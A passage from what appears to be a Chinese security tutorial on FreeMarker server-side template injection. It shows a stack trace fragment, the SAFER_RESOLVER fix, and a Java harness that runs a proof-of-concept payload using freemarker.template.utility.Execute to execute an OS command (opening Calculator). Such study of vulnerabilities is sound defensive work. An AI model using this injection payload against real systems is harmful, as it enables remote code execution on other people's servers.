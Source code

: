 ```plain
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

观察exec方法  
[![](assets/1701606782-8675f54c452412516ab76284c24518a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103172856-6939554a-7a2b-1.png)

### 2.5 修复防御

```plain
Configuration cfg = new Configuration();
cfg.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
```

```plain
//设置模板
HashMap<String, String> map = new HashMap<String, String>();
String poc ="<#assign aaa=\"freemarker.template.utility.Execute\"?new()> ${ aaa(\"open -a Calculator.app\") }";
System.out.println(poc);
StringTemplateLoader stringLoader = new StringTemplateLoader();
Configuration cfg = new Configuration();
stringLoader.putTemplate("name",poc);
cfg.setTemplateLoader(stringLoader);
//cfg.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
//处理解析模板
Template Template_name = cfg.getTemplate("name");
StringWriter stringWriter = new StringWriter();

Template_name.process(Template_name,stringWriter);
```
